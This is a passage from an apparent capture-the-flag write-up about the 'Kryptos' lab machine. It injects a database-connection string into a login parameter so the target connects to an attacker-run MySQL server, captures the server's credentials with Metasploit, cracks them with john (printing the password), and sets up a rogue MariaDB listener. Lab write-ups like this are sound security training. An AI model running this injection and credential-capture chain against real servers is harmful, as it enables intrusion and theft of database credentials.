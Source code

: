 Fiddling a bit with the parameters we find that by changing the db parameter we can trigger various different error messages. This seems like a good place to inject. There was a vulnerability in [LimeSurvey](http://127.0.0.1/2018/08/vuln_exploiting_limesurvey.html) not long ago that allowed to swap the database for an attacker controlled one, which seems like the kind of problem here too!

To begin we see if we can get a connection from the server by using tcpdump on the attacker side and the injection string `cryptor;host=10.10.16.66;port=3306#`:

```
sudo tcpdump -i tun0
16:28:09.427641 IP kryptos.57286 > red.mysql: Flags [S], seq 2980987389, win 29200, options [mss 1355,sackOK,TS val 3601524040 ecr 0,nop,wscale 7], length 0
16:28:09.427692 IP red.mysql > kryptos.57286: Flags [R.], seq 0, ack 2980987390, win 0, length 0
```

We indeed get a connection request by the server! The html response shows "PDOException code: 2002", which is connection refused. Now we would like to get the credentials the server is using to connect to us – fortunately Metasploit has a module to capture these (remember to set the JOHNPWFILE parameter to save them to file):

```
msf5 auxiliary(server/capture/mysql) >
[*] Started service listener on 0.0.0.0:3306
[*] Server started.
[+] 10.10.10.129:57298 - User: dbuser; Challenge: 112233445566778899aabbccddeeff1122334455; Response: 73def07da6fba5dcc1b19c918dbd998e0d1f3f9d; Database: cryptor
```

We crack them after a just a few seconds:

```
john --wordlist=~/tools/SecLists/Passwords/Leaked-Databases/rockyou.txt kryptos_mysqlna
krypt0n1te       (dbuser)
```

It is time to setup a local db that can accommodate the request. I will describe the process on a kali box. First we have to edit "/etc/mysql/mariadb.conf.d/50-server.cnf" to listen on the external interface and allow logging, making the following changes:

```
port                   = 3306
bind-address            = 0.0.0.0
general_log_file       = /var/log/mysql/mysql.log
general_log            = 1
```

Also we have to create the mysql socket directory (or change its path):

```
sudo mkdir /run/mysqld
sudo chown -R mysql:root mysqld
```

Then we can finally start the service:

```
sudo systemctl restart mysql.service
sudo systemctl restart mariadb.service
netstat -tulpen | grep 3306
tcp        0      0 0.0.0.0:3306            0.0.0.0:*               LISTEN      104
```
